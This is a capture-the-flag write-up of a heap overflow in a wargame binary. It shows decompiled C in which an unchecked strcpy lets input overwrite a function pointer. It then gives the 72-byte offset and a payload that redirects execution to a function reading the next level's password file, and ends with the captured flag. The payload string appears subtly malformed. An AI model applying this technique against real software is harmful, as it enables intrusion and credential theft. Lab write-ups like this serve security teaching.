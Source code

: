 ```C
void n(void)
{
    system("/bin/cat /home/user/level7/.pass");
    return;
}



void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)
{
    puts("Nope");
    return;
}



void main(undefined4 param_1, char **argv)
{
    char        *dest;
    undefined4  *puVar1;
    
    dest   = malloc(0x40);
    puVar1 = malloc(4);

    *puVar1 = m;

    strcpy(dest, argv[1]);

    (puVar1)();

    return;
}
```

- dest is a pointer to an address with 64 bytes allocated
- puVar1 is a pointer to a function (4bytes allocated on 32 bits arch)
- strcpy is vulnerable here, we can copy how many bytes we want in dest until overwriting the puVar1 function that point to m() by the n() malicious function.

With ltrace:
- Address of dest  : 0x0804a008
- Address of puVar1: 0x0804a050

So the offset from dest to puVar1 = 0x0804a050 - 0x0804a008 = 0x48 = 72 bytes

-> We can write 72 bytes in dest before reaching puVar1 pointer on the heap and overwrite the the address in puVar1. We will put the address of n()

Address of n() = 0x08048454 (Using nm)

```
Payload: "A"*72 + "0x08048454"
```

```bash
python3 exploit.py

f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```